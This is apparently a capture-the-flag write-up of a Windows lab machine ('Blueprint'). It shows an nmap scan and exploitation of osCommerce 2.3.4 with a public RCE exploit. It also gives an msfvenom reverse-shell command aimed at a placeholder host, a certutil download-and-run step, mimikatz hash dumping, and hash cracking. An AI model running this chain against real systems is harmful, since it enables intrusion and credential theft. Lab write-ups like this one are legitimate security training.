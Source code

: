 # Blueprint

This one is a windows box with minimal hints.

## Port scan

```nmap
PORT      STATE    SERVICE      REASON          VERSION
80/tcp    open     http         syn-ack ttl 125 Microsoft IIS httpd 7.5
| http-methods: 
|   Supported Methods: OPTIONS TRACE GET HEAD POST
|_  Potentially risky methods: TRACE
|_http-title: 404 - File or directory not found.
|_http-server-header: Microsoft-IIS/7.5
135/tcp   open     msrpc        syn-ack ttl 125 Microsoft Windows RPC
139/tcp   open     netbios-ssn  syn-ack ttl 125 Microsoft Windows netbios-ssn
443/tcp   open     ssl/http     syn-ack ttl 125 Apache httpd 2.4.23 (OpenSSL/1.0.2h PHP/5.6.28)
| http-methods: 
|   Supported Methods: GET HEAD POST OPTIONS TRACE
|_  Potentially risky methods: TRACE
|_ssl-date: TLS randomness does not represent time
|_http-server-header: Apache/2.4.23 (Win32) OpenSSL/1.0.2h PHP/5.6.28
| ssl-cert: Subject: commonName=localhost
| Issuer: commonName=localhost
| Public Key type: rsa
| Public Key bits: 1024
| Signature Algorithm: sha1WithRSAEncryption
| Not valid before: 2009-11-10T23:48:47
| Not valid after:  2019-11-08T23:48:47
| MD5:   a0a4 4cc9 9e84 b26f 9e63 9f9e d229 dee0
| SHA-1: b023 8c54 7a90 5bfa 119c 4e8b acca eacf 3649 1ff6
445/tcp   open     microsoft-ds syn-ack ttl 125 Windows 7 Home Basic 7601 Service Pack 1 microsoft-ds (workgroup: WORKGROUP)
3306/tcp  open     mysql        syn-ack ttl 125 MariaDB (unauthorized)
5172/tcp  filtered pcoip-mgmt   no-response
7974/tcp  filtered unknown      no-response
8080/tcp  open     http         syn-ack ttl 125 Apache httpd 2.4.23 (OpenSSL/1.0.2h PHP/5.6.28)
|_http-server-header: Apache/2.4.23 (Win32) OpenSSL/1.0.2h PHP/5.6.28
|_http-title: Index of /
| http-methods: 
|   Supported Methods: GET HEAD POST OPTIONS TRACE
|_  Potentially risky methods: TRACE
21620/tcp filtered unknown      no-response
32396/tcp filtered unknown      no-response
38683/tcp filtered unknown      no-response
46207/tcp filtered unknown      no-response
49152/tcp open     msrpc        syn-ack ttl 125 Microsoft Windows RPC
49153/tcp open     msrpc        syn-ack ttl 125 Microsoft Windows RPC
49154/tcp open     msrpc        syn-ack ttl 125 Microsoft Windows RPC
49158/tcp open     msrpc        syn-ack ttl 125 Microsoft Windows RPC
49159/tcp open     msrpc        syn-ack ttl 125 Microsoft Windows RPC
49160/tcp open     msrpc        syn-ack ttl 125 Microsoft Windows RPC
52621/tcp filtered unknown      no-response
Aggressive OS guesses: Microsoft Server 2008 R2 SP1 (96%), Microsoft Windows 7 or 8.1 R1 (93%)

```

## Enumeration

I went against what I normally do and headed for the webserver first. It's running some CMS I haven't heard of before `osCommerce Online Merchang v2.3.4`. The version is leaked in the webapp's URL.

I was able to find a few exploits for this using searchsploit, I chose to test the most recent RCE exploit `50128.py`


## Exploitation 

This exploit was failing out of the box because the webserver is using a self-signed cert...I just added `verify=False` to the parameter list of each `request.*()` call to bypass this. The exploit gives me an incomplete root RCE shell. I quickly jumped over to a reverse tcp shell which I generated using msfvenom.

```bash
msfvenom -p windows/shell_reverse_tcp LHOST=<myIP> LPORT=4444 -f exe -o shell.exe
```

Then I used `certutil` to download the reverse shell and executed it. I now have a much more stable shell as `nt authority\system`.

I was able to read the root.txt file and install and run mimikatz to dump the NTLM hashes for cracking.

Trying to crack with hashcat

```bash
hashcat -m 1000 -a 3 hash.txt
```

As I sit here reviewing scans of other boxes and listening to my computer, obviously pissed about the heavy load hashcat is putting on it....I remember using something to just lookup the hashes online in the past. A quick google brought me back to [CrackStation](https://crackstation.net/). I was able to paste the hash and quickly look it up.
